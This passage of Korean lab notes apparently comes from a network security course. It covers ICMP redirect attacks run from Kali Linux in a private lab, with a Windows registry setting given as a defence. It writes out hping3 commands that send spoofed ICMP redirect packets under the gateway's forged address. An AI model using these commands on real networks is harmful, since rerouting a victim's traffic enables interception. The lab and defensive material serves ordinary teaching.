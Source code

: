  와이어샤크 -> 필터 : http





커널 포워딩 끄고 소프트웨어 포워딩으로

-  root@kali-04:~# vim /etc/sysctl.conf

```
net.ipv4.ip_forward=0 // 0으로 다시 바꿔주기
```

root@kali-04:~# sysctl -p
net.ipv4.ip_forward = 0

root@kali-04:~# hping3 -1 -C 5 -K 1 --icmp-gw 172.16.10.30 --icmp-ipsrc 172.16.10.10 --icmp-ipdst 168.126.63.1 -a 172.16.10.254 172.16.10.10

```
HPING 172.16.10.10 (eth0 172.16.10.10): icmp mode set, 28 headers + 0 data bytes
```

즉 양방향은 무조건 Kernel Forwarding 을 해줘야한다.



#### 윈도우에도 보안 정책이 있다. 

윈도우 -> 실행창 -> regedit (레지스트리 편집기)

HKET_LOCAL_MACHIN -> SYSTEM -> Current ControlSet -> Services -> Tcpip -> Parameters -> EnablelCMPRedirect 값을 0으로 설정 -> 재부팅



###### 칼리

테스트는 단방향으로 하겠음

root@kali-04:~# iptables -t nat -D POSTROUTING 1
root@kali-04:~# iptables -t nat -L

```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination   
```



 root@kali-04:~# hping3 -1 -C 5 -K 1 --icmp-gw 172.16.10.30 --icmp-ipsrc 172.16.10.10 --icmp-ipdst 168.126.63.1 -a 172.16.10.254 172.16.10.10
